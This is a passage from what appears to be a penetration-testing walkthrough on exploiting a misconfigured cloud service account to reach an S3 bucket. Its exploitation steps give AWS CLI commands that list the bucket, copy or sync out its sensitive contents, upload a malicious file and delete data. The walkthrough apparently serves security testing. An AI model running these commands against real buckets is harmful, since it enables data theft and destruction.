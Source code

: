 *   **Alternative Approaches:** Instead of using the AWS CLI, you could attempt to access S3 buckets programmatically within a container running with the vulnerable service account.

**B. Exploitation**

**Step 4: Enumerate S3 Bucket Contents and Download Sensitive Data**

*   **Command (Assuming you have identified a vulnerable bucket named `your-sensitive-data-bucket`):**

```bash
# List the contents of the S3 bucket
aws s3 ls s3://your-sensitive-data-bucket/

# Download a specific file (replace sensitive_file.txt with the actual file name)
aws s3 cp s3://your-sensitive-data-bucket/sensitive_file.txt .

# Download entire bucket (be careful with very large buckets!)
aws s3 sync s3://your-sensitive-data-bucket/ ./downloaded_bucket/
```

*   **Explanation:**
    *   These commands use the AWS CLI to interact with the S3 bucket.  The `aws s3 ls` command lists the contents of the bucket.
    *   The `aws s3 cp` command copies a specific file from the bucket to the local directory.
    *   The `aws s3 sync` command synchronizes the entire bucket to a local directory.
*   **Why:** To retrieve sensitive data stored in the bucket.
*   **Expected Output:**
    *   A list of files and directories within the S3 bucket.
    *   A copy of the specified file or the entire bucket downloaded to the local directory.
*   **Validation:**  Successful download of sensitive data confirms the vulnerability.
*   **Alternative Approaches:**  Use the AWS Management Console to browse and download data from the bucket.

**Step 5: Modify or Delete Data in the S3 Bucket (If write permissions exist)**

*   **Command (Assuming you have identified write permissions):**

```bash
# Upload a file to the S3 bucket
aws s3 cp malicious_file.txt s3://your-sensitive-data-bucket/malicious_file.txt

# Delete a file from the S3 bucket
aws s3 rm s3://your-sensitive-data-bucket/sensitive_file.txt
```

*   **Explanation:**
    *   These commands use the AWS CLI to modify and delete data in the S3 bucket.  The `aws s3 cp` command uploads a file to the bucket.
    *   The `aws s3 rm` command deletes a file from the bucket.
*   **Why:** To demonstrate the potential for data corruption or service disruption.
*   **Expected Output:**  Successful upload or deletion of the specified file.
*   **Validation:**  Verify that the file has been successfully uploaded or deleted from the bucket.
*   **Alternative Approaches:** Use the AWS Management Console to modify or delete data in the bucket.
